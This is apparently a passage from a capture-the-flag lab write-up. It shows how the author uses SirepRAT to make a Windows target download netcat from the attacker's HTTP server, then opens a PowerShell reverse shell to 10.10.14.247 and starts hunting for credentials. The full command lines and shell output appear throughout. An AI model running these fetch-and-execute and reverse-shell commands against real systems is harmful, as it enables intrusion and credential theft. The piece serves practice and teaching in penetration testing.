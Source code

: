 Let's try to open a reverse shell with netcat instead of metasploit. 
First, download a 64-bit version of netcat and "upload" it to the remote machine.
To do this, set up a temporary HTTP server and download the file from the remote machine.  

```
┌──(kali㉿kali)-[~/Downloads/netcat_64]
└─$ ls
doexec.c  generic.h  getopt.c  getopt.h  hobbit.txt  license.txt  Makefile  nc64.exe  nc.exe  netcat.c  readme.txt
                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~/Downloads/netcat_64]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

(myvenv) ┌──(kali㉿kali)-[~/Downloads/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell.exe -command Invoke-WebRequest -Uri http://10.10.14.247:8000/nc64.exe -Outfile C:\Windows\system32\nc64.exe"

<HResultResult | type: 1, payload length: 4, HResult: 0x0>
```

Listen on Kali for a netcat connection and establish a reverse shell (Powershell). 
```
┌──(kali㉿kali)-[~/Downloads/netcat_64]
└─$ nc -nlvp 6969
listening on [any] 6969 ...

(myvenv) ┌──(kali㉿kali)-[~/Downloads/SirepRAT]
└─$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\\Windows\\system32\\nc64.exe 10.10.14.247 6969 -e powershell.exe"                                       
<HResultResult | type: 1, payload length: 4, HResult: 0x0>
```

Finally! A reverse shell!
```
┌──(kali㉿kali)-[~/Downloads/netcat_64]
└─$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.247] from (UNKNOWN) [10.10.10.204] 49728
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\windows\system32> 
```

Now it's time for MORE enumeration... 
Just by cd'ing around, there are interesting files in the Users folder of C:\Data\Users (for admin and app)
I just need to find the creds for the corresponding accounts to decrypt the flags. 

Maybe there is a lazy sysadmin that left some hidden files with clues? Note that I tried the following also with .xml, .txt, .ini, .ps1, .cmd, .btm, and so on. 
